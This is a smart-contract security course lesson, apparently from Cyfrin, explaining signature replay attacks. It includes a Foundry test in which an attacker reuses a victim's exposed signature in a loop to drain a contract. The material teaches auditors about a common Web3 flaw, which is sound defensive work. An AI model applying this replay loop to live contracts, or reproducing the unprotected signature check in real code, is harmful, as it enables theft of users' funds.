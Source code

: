 ```yaml
---
title: Exploit - Signature Replay Minimized
---
```


_Follow along with the video lesson:_

---

### Exploit - Signature Replay Minimized

We need to talk about signature reply attacks, because they are painfully common in Web3.

We've got a great hands-on, [**Remix example**](https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/signature-replay/SignatureReplay.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js) in our [**sc-exploits-minimized**](https://github.com/Cyfrin/sc-exploits-minimized) repo to assist you in better understanding this attack vector. If you want to play with it in Remix, you're encouraged to do so, but I find it easier to bring up the [**SignatureReplayTest.t.sol**](https://github.com/Cyfrin/sc-exploits-minimized/blob/main/test/unit/SignatureReplayTest.t.sol) file in the sc-exploits-minimized repo locally.

```js
function test_signatureReplay() public {
    vm.startPrank(victim.addr);
    signatureReplay.deposit{value: startingAmount}();

    // These 3 lines happen off chain
    bytes32 structHash = keccak256(abi.encode(signatureReplay.TYPEHASH(), withdrawAmount));
    bytes32 digest = signatureReplay.getHashTypedDataV4(structHash); // This function will prepend the EIP-712 domain separator
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(victim.key, digest);

    // Victim signs withdrawal of 1 ether, oh no! The signature is loose!
    // The V, R, and S values are live!
    signatureReplay.withdrawBySig(v, r, s, withdrawAmount);
    vm.stopPrank();

    assertEq(address(signatureReplay).balance, startingAmount - withdrawAmount);
    assertEq(signatureReplay.balances(victim.addr), startingAmount - withdrawAmount);

    vm.startPrank(attacker);
    while (address(signatureReplay).balance >= 1 ether) {
        signatureReplay.withdrawBySig(v, r, s, withdrawAmount);
    }
    vm.stopPrank();

    assertEq(address(signatureReplay).balance, 0);
    assertEq(signatureReplay.balances(victim.addr), 0);
}
```

In this test, we have a victim depositing funds to a protocol and then signing a transaction with `vm.sign`. The victim then calls `withdrawBySig` which broadcasts the `v, r, and s` values of the victimes signature for this message, on-chain.

```js
signatureReplay.withdrawBySig(v, r, s, withdrawAmount);
```

From here, an attacker sees these values on-chain and decides to call the `withdrawBySig` function with them repeatedly until all funds are removed from the protocol.

Granted, in this example the attacker isn't _stealing_ anything, you could see the potential exploits that could arise from this sort of vulnerability.

In the next lesson, we'll write up a `PoC` to showcase exactly how this could be exploited within `Boss Bridge`. See you there!
